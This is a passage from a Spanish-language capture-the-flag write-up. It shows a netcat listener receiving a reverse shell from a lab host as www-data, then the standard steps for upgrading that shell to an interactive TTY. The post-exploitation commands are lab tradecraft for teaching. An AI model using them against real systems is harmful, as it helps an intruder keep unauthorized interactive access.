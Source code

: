 <img src="/assets/images/THL-writeup-campanaFeliz/Captura16.png">
</p>


Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.200] 51824
bash: cannot set terminal process group (503): Inappropriate ioctl for device
bash: no job control in this shell
www-data@debian:/var/www/html$ whoami
whoami
www-data
```
Estamos dentro otra vez.

Obtengamos una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```
Continuemos.
